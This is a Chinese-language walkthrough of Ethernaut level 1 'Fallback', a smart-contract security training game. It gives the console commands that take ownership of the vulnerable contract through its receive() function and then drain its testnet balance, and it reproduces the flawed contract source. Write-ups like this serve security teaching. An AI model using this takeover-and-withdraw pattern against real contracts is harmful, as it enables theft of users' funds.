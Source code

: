 ```yaml
---
title: Ethernaut第1关-fallback解题指南
date: 2025-04-09 00:30:46
tags:
  - web3
  - security
---
```


# Ethernaut 第 1 关 - Fallback 解题指南

Ethernaut 是 OpenZeppelin 提供的 Web3/Solidity 战游戏，通过“黑客”智能合约帮助学习以太坊安全知识。第 1 关“Fallback”是一个基础关卡，旨在让玩家理解回退函数的潜在漏洞。本指南详细解释如何解决关卡 [https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)，并提供完整步骤。

<!-- more -->

## 前提条件
- 安装并配置 [Metamask](https://metamask.io/)，连接到 Sepolia 测试网。
- 从 [Sepolia Faucet](https://sepoliafaucet.com/) 获取测试网 ETH。
- 访问 [Ethernaut 官网](https://ethernaut.openzeppelin.com/) 并生成新实例。

## 关卡目标
- 成为合约的 `owner`。
- 将合约余额减少到 0（初始余额为 0.001 ETH）。

## 解决步骤

### 1. 准备环境
- 确保 Metamask 已连接到 Sepolia 测试网并有足够的 ETH。
- 在 Ethernaut 第 1 关页面点击“生成新实例”，获取合约地址。
- 打开浏览器开发者工具（F12），切换到 Console 标签。

### 2. 发送初始贡献
- 调用 `contribute` 函数，发送少量 ETH（例如 0.0001 ETH）：
  ···javascript
  await contract.contribute({ value: ethers.parseEther("0.0001") })
  ···
- 这将记录你的贡献，满足回退函数的要求。

### 3. 触发回退函数接管所有权
- 直接向合约发送 ETH（例如 0.001 ETH），触发 `receive` 函数：
  ···javascript
  await web3.eth.sendTransaction({
      from: player,
      to: contract.address,
      value: ethers.parseEther("0.001")
  })
  ···
- 发送成功后，你将成为新的 `owner`。

### 4. 提取资金
- 调用 `withdraw` 函数提取所有余额：
  ···javascript
  await contract.withdraw()
  ···
- 合约余额将被转回你的钱包。

### 5. 验证完成
- 检查合约余额（应为 0）：
  ···javascript
  await web3.eth.getBalance(contract.address)
  ···
- 检查 `owner`（应为你的地址）：
  ···javascript
  await contract.owner()
  ···
- 在 Ethernaut 页面点击“Submit Instance”验证。

## 注意事项
- **ETH 单位**：`ethers.parseEther("0.001")` 将 0.001 ETH 转换为 Wei。
- **交易确认**：每次调用需等待交易确认。
- **成本**：需支付少量 ETH，但提取的资金会覆盖成本。

## 合约代码参考
以下是关卡的简化合约代码：
···solidity
contract Fallback {
    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    receive() external payable {
        require(msg.value > 0);
        require(contributions[msg.sender] > 0);
        owner = msg.sender;
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
}
···

## 结果
通过利用回退函数的漏洞，你成功接管合约并提取所有资金，完成第 1 关。这一关展示了回退函数设计不当的安全风险。

## 资源与参考
- [Ethernaut 官网](https://ethernaut.openzeppelin.com/)
- [Metamask 官网](https://metamask.io/)
- [Sepolia Faucet](https://sepoliafaucet.com/)